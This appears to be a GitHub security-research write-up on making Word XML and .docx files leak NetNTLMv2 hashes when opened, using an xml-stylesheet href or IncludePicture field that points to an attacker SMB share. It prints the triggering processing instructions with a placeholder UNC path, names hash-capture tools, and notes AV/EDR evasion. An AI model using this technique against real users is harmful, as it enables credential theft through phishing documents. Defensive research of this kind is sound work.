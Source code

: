 # NetNTLMv2-and-Office-Docs-Research

Was talking with some friends on discord, and the conversation started with a couple links and seeing whether some combo of these 2 would still work in 2023: https://blog.didierstevens.com/2017/11/13/webdav-traffic-to-malicious-sites/ and https://bohops.com/2018/08/04/capturing-netntlm-hashes-with-office-dot-xml-documents/. 

It turns out that it does! Creating a Word .XML file (in a similar way as the BoHops link above, File -> Save As -> `Word XML document (*.xml)`) still causes NetNTLMv2 hashes to be leaked upon opening the document, as long as you have the processing instruction `<?mso-application progid="Word.Document"?>` at the top to force the host to associate the file as a Word doc, and the "path" Word should expect to open the style sheet from within the href tag in the stylesheet processing instruction `<?xml-stylesheet type="text/xsl" href="\\ENDPOINT\HERE\word.xsl"?>`. Once the document is opened, no further interaction is needed, the document will automatically try to load the style sheet referenced in the href tag within the xml-stylesheet processing instruction at the top of your Word XML file, which in this case is an SMB endpoint set up using impacket-smbserver (Re-ran all the tests with Responder as well and hashes were picked up there as well). Sending the document via email (so it would gain MOTW), opening the document and hitting "Enable Editing..." button, hashes also successfully hit my smb endpoint.

![image](https://user-images.githubusercontent.com/75406207/230168107-15551eec-b135-4418-9fa6-1800401f0a8f.png)

Going a step further, we wanted to see whether it was possible to replicate some of this with .docx files, but if you've ever pulled apart a .docx file, it is a huge ~~mess~~ collection of xml files. This led me deep into the depths of documentation for OpenXML while simultaneously pulling .docx xml files apart, creating new documents with different styles/features/etc. to see whether I'd be able to get a word document zipped back up into it's original form and still open with the suspect `<xml-stylesheet>` call. 

With the .docx internals being a bit (read: a LOT) more finnicky when trying to inject the same payload idea into a couple of the xml files and "re-compile" them for lack of a better term, I went back to the drawing board to look into already established/"tried and true" methods of manipulating/poisoning office documents, and stumbled across this on HackTricks <https://book.hacktricks.xyz/generic-methodologies-and-resources/phishing-methodology/phishing-documents#external-image-load>, which I had seen before, but not paid a whole lot of attention to.

Using that IncludePicture method and just populating the URL field with my smb endpoint, I was able get the same behavior as the .XML file tested previously, which was that the NetNTLMv2 hashes are successfully leaked upon opening the document. Then, I sent the same document via email (so it would gain MOTW), opened it and hit the "Enable Editing..." button, and a hash leaked successfully again. Nothing seemed to flag from an AV/EDR standpoint, 

![image](https://user-images.githubusercontent.com/75406207/230168191-1379ddaa-f07f-49de-a488-0931e6c8d577.png)

The tiny, highlighted box under "Test" in the document in the screenshot below is the "image" generated by using the IncludePicture function, shrunk considerably but large enough where it can still be seen when highlighting. 

Given this was a conversation started this morning, I haven't had the time to sit down and figure out how to expand and continue down this rabbit hole, but at a base level seems ripe for assumed breach/internal tests. Configuring .docx files with IncludePicture using the SMB share path is trivial and can easily be abused, however I have a feeling this is going to be more of an "intended functionality."  

I'll also note that the SMB "paths" configured were IPs, not FQDNs. If this ends up being a widely used attack vector and Microsoft attempts to resolve these vulnerabilities with an approach similar to how they "fixed" PrintNightmare, Follina, and most recently CVE-2023-23397, I'd expect this vector to be viable/bypasses to the patch(es) to be found quickly. 
